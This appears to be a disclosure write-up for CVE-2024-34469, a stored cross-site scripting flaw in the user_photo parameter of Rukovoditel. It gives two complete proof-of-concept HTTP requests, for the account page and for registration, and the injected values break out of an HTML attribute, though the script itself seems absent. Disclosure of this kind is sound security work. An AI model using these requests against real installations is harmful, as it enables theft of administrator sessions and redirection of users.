

# CVE-2024-34469
Rukovoditel up to 3.5.3 version is affected to cross-site scripting attack (XSS)
The payload can be embedded in two places, on the registration page and in the user’s personal account with any privileges.
The vulnerability is in the **user_photo** parameter.

1. Editing the personal account "My Page"
```
POST /index.php?module=users/account&action=update&token=mzjjjrOgze HTTP/1.1
Host: 192.168.0.15
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=---------------------------304983279014015673452478204380
Cookie: [Cookie]

-----------------------------304983279014015673452478204380
Content-Disposition: form-data; name="form_session_token"

mzjjjrOgze
-----------------------------304983279014015673452478204380
Content-Disposition: form-data; name="fields[7]"

user
-----------------------------304983279014015673452478204380
Content-Disposition: form-data; name="fields[8]"

user
-----------------------------304983279014015673452478204380
Content-Disposition: form-data; name="user_photo"

user_2_1712564921.jpeg">
-----------------------------304983279014015673452478204380
Content-Disposition: form-data; name="delete_user_photo"

0
-----------------------------304983279014015673452478204380
Content-Disposition: form-data; name="fields[9]"

user@user.com
-----------------------------304983279014015673452478204380
Content-Disposition: form-data; name="fields[13]"

english.php
-----------------------------304983279014015673452478204380--
```

It will triggerd on the personal account page:
*/index.php?module=users/account*


And when on the all users page, at the admin panel:
*/index.php?module=items/items&path=1*


2. If the registration mechanism is enabled, then you can insert a payload in the same parameter
```
POST /index.php?module=users/registration&action=save HTTP/1.1
Host: 192.168.0.15
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=---------------------------23053781821106606461863123342
Cookie: [Cookie]

-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="form_session_token"

Hz7oBzXORq
-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="fields[12]"

user2
-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="password"

useruser
-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="fields[7]"

user2
-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="fields[8]"

user2
-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="user_photo"

tmp_photo_1712573394_Hz7oBzXORq.png">
-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="delete_user_photo"

0
-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="fields[9]"

user2@user2.com
-----------------------------23053781821106606461863123342
Content-Disposition: form-data; name="fields[13]"

russian.php
-----------------------------23053781821106606461863123342--
```
It will be triggerd when admin goes to the page to confirm new users.
This vulnerability can lead to theft of administrative cookies or redirection to the attacker's website.


## References
* https://forum.rukovoditel.net/viewtopic.php?t=5071&sid=7c9a643dbc8ab389062498f0dd0db959;
* https://nvd.nist.gov/vuln/detail/CVE-2024-34469;
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-34469.
